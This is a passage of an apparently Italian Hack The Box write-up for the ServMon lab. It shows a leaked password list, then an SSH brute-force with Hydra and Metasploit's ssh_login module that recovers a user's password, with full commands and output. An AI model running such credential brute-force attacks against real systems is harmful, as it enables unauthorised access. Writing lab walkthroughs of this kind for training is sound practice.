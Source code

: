 Ci ritorna delle possibili password

```bash
HTTP/1.1 200 OK 
Content-type: text/plain C
ontent-Length: 156 
Connection: close 
AuthInfo: 


1nsp3ctTh3Way2Mars! 
Th3r34r3To0M4nyTrait0r5! 
B3WithM30r4ga1n5tMe 
L1k3B1gBut7s@W0rk 
0nly7h3y0unGWi11F0l10w 
IfH3s4b0Utg0t0H1sH0me 
Gr4etN3w5w17hMySk1Pa5$
```

Proviamo a romperle con [Hydra](../Hydra.md)

```bash
┌──(root㉿kali)-[/home/kali/htb/servmon]
└─# hydra -L users.txt -P passwords.txt 10.10.10.184 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-09-25 16:45:39
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 21 login tries (l:3/p:7), ~2 tries per task
[DATA] attacking ssh://10.10.10.184:22/
[22][ssh] host: 10.10.10.184   login: Nadine   password: L1k3B1gBut7s@W0rk
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-09-25 16:45:46
```

>[!info] possiamo anche trovalo con msfconsole come si vede 
>
```bash
msf6 auxiliary(scanner/ssh/ssh_login) > set USER_FILE users.txt
USER_FILE => users.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set PASS_FILE passwords.txt
PASS_FILE => passwords.txt
msf6 auxiliary(scanner/ssh/ssh_login) > set RHOSTS 10.10.10.184
RHOSTS => 10.10.10.184
msf6 auxiliary(scanner/ssh/ssh_login) > run

[*] 10.10.10.184:22 - Starting bruteforce
[+] 10.10.10.184:22 - Success: 'Nadine:L1k3B1gBut7s@W0rk' 'Microsoft Windows [Version 10.0.17763.864]'
[*] SSH session 1 opened (10.10.14.14:45269 -> 10.10.10.184:22) at 2023-09-25 16:38:39 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
